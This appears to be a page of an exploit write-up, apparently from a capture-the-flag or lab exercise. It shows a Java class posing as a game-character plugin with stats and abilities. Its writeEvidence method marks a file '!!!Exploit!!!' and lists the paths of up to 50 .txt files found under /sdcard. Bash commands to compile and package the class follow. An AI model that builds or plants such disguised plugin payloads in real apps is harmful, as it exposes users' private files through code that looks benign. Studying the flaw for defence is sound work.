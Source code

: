 ```java
    public String getType() { return "Dark"; }
    @SuppressWarnings({"rawtypes","unchecked"})
    public Map getAllData() {
        Map m = new HashMap();
        m.put("description", "A silent assassin from the night.");
        m.put("imageResourceId", 0);
        m.put("abilities", Arrays.asList("Stealth","Shadow Steal"));
        Map stats = new HashMap();
        stats.put("HP",120); stats.put("Attack",100); stats.put("Defense",80);
        stats.put("Sp. Attack",110); stats.put("Sp. Defense",90); stats.put("Speed",120);
        m.put("stats", stats);
        return m;
    }

    private void writeEvidence(File out) {
        try (BufferedWriter bw = new BufferedWriter(new FileWriter(out, false))) {
            bw.write("!!!Exploit!!!\n");
            // list .txt files in sdcard
            File root = new File("/sdcard");
            int wrote = 0;
            Deque<File> q = new ArrayDeque<>();
            q.add(root);
            while (!q.isEmpty() && wrote < 50) {
                File d = q.removeFirst();
                File[] list = d.listFiles();
                if (list == null) continue;
                for (File f : list) {
                    if (f.isDirectory()) { q.addLast(f); continue; }
                    if (f.getName().toLowerCase().endsWith(".txt")) {
                        bw.write("[+] " + f.getAbsolutePath() + "\n");
                        wrote++;
                        if (wrote >= 50) break;
                    }
                }
            }
            bw.flush();
        } catch (Throwable ignored) {}
    }
}
```

```bash
mkdir -p build/classes build/dex
```

And here's the *compilation process*:
```bash
javac -encoding UTF-8 -source 1.8 -target 1.8 -d build/classes src/ShadowLegend.java
```

```bash
jar -cf build/classes.jar -C build/classes .
```
